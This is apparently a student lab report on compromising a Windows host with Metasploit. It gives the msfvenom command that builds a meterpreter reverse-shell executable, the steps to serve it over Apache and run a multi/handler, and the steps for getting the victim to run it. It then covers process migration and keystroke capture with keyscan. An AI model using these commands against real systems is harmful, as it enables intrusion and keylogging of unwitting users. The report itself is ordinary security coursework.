 ## REG.NO:212222110050
## NAME:SWETHA N
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:
![325066504-e3b4e8ad-0744-41da-bf0e-00af2819b316](https://github.com/user-attachments/assets/621bd19b-6dad-4d04-8a2e-714f38b3c807)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![325067463-e5f93487-fe4d-4ca2-ae87-40528759b8ca](https://github.com/user-attachments/assets/c2167662-b9d3-44c2-bc4e-9604935a2745)
copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![325067418-a7061eec-78cb-4924-8bfd-750819217ae4](https://github.com/user-attachments/assets/409295c1-b52c-433d-ad7a-756eddd562ef)
Start apache server sudo systemctl apache2 start

## OUTPUT:
![325067343-94f19b88-677c-4e52-9f3e-9c0692c1b517](https://github.com/user-attachments/assets/759bb388-5801-43ba-bd9d-2b2f5964605d)
Check the status of apache2

## OUTPUT:
![325067309-b0acfb58-3df4-4054-94b9-cbee552a7016](https://github.com/user-attachments/assets/2e43902d-b353-4faf-b2e4-19fbb6f74085)
Invoke msfconsole:

## OUTPUT:
msfconsole
![325067216-44262e98-e486-48b5-ac0b-a46ce64aea0e](https://github.com/user-attachments/assets/af469f20-26e3-4026-95c3-2280bd18af4b)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![325067173-df212ae7-e067-4020-8c25-1c0aa43b59e7](https://github.com/user-attachments/assets/e235bcb6-ac32-4f7b-aee8-3331164e3b06)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css
![325067134-8e273f1c-0127-4bf3-84fb-fb78e9c6ac90](https://github.com/user-attachments/assets/247e416c-4cf7-4e7d-9931-96927cacd2a7)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![325067076-70a3b4d8-0dcc-4370-9fcd-2c3677d0895e](https://github.com/user-attachments/assets/0a4ad34e-4a31-4cc4-8da7-a6d159b3b341)

Bypass any warning boxes, double-click the file, and allow it to run.
![325067042-e8a7eea1-3cc6-4ecb-958f-fde637a7fae8](https://github.com/user-attachments/assets/b0f3b60e-a00a-4391-b066-ebb0071e4656)

On kali give the command exploit
![325067013-65425abf-0758-4378-8135-3ff71f48e582](https://github.com/user-attachments/assets/c65e5432-c55a-4cd1-961b-3c5d82b9cdf0)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![325066983-5d0014c5-4c05-4600-9961-06a15007e0f3](https://github.com/user-attachments/assets/104aa709-3f8b-45ff-8281-5d4d55e69f94)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![325066956-f67156a4-303a-46e8-988b-f6cfedf969a8](https://github.com/user-attachments/assets/70fe5f55-633f-4d77-a2cd-d02d81e08b88)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![325066903-e6b6fbc1-4c4c-4e14-a3d8-10249cff2969](https://github.com/user-attachments/assets/9ef07677-5f3d-4b65-b3df-9d96bef22def)

![325066935-a33bbc37-38ac-45b3-b0a3-fd26b82ed9ab](https://github.com/user-attachments/assets/0b2ec218-ad45-4270-a259-94ac916b97e1)

keyscan_dump Shows the keystrokes captured so far

![325066872-4f311cb3-83cd-4564-a90b-590e1397a284](https://github.com/user-attachments/assets/059102eb-e543-4af3-a784-591c3acc97e4)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
